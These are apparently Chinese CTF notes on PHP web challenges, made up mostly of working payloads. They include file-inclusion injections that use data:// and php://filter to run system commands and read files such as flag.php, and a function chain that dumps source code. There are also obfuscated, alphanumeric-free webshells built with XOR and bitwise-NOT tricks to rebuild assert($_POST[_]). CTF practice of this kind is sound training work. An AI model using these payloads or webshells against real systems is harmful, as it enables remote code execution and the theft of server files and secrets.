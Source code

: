 [toc]

# 32 伪协议命令执行

```php
c=include$_GET[1]?>&1=data://text/plain,<?=system('tac ctf27.php');?>
    include 文件包含，包含后回执行文件内的代码
    包含对象：data://xxx/xxx,<?=system('tac flag.php');?>
    是一个data协议
c=include$_GET[2]?>&2=php://filter/read=convert.base64-encode/resource=ctf27.php
c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
    include 文件包含，包含后回执行文件内的代码
    包含对象：php://filter/read=convert.base64-encode/resource=flag.php
    php协议，可以访问各输入输出流
```

40 方法套娃

```php
//$c = "print_r(localeconv());";
//$c = "print_r(pos(localeconv()));";
//$c = "print_r(scandir(pos(localeconv())));";
//$c = "print_r(array_reverse(scandir(pos(localeconv()))));";
//$c = "print_r(next(array_reverse(scandir(pos(localeconv())))))";
$c = "print_r(show_source(next(array_reverse(scandir(pos(localeconv()))))));";
```

# 41 PHP:eval() [无字母数字命令执行](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

异或逃逸 

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

取反逃逸

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```


[bash绕过方式]: https://blog.51cto.com/u_15127695/4278470	"bash绕过方式"